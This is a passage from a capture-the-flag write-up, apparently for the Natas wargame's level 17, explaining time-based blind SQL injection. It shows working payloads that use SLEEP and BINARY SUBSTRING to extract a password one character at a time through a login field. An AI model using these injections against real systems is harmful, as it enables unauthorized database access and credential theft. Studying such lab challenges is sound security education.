 ```sql
SELECT * from users where username="somebody"
```

Note how in the SQL the username is in double quotation marks. Since the user
input is not being sanitized, the double quotation mark can be used to escape
the username fields and change the SQL query. The trick is:

```
natas18" AND SLEEP(5) --
```

This will run the SQL query:

```sql
SELECT * from users where username="natas18" AND SLEEP(5) --
```

Using this on the web form with the Developer Tools open to the Network tab,
the timing of the HTTP requests can be seen:

![Delayed Response](images/level_17/03_delayed_response.png)

It works! Changing the username to anything else will cause the HTTP response
to come back much quicker. That is because the database is smart: if the
username doesn't exist, then the query will be false, so there is no point in
executing anything after the `AND` (boolean short-circuiting).

This is the behavioural oracle to solve this challenge. All that is needed is to
check the password character by character, and then put it all together.

To make a guess of the first letter of the password, the "username" to use is
`natas18" AND BINARY SUBSTRING(password, 1, 1) = "a" AND SLEEP(5) -- ` which
results in the SQL:

```sql
SELECT * from users where username="natas18" AND BINARY SUBSTRING(password, 1, 1) = "a" AND SLEEP(5) -- "
```
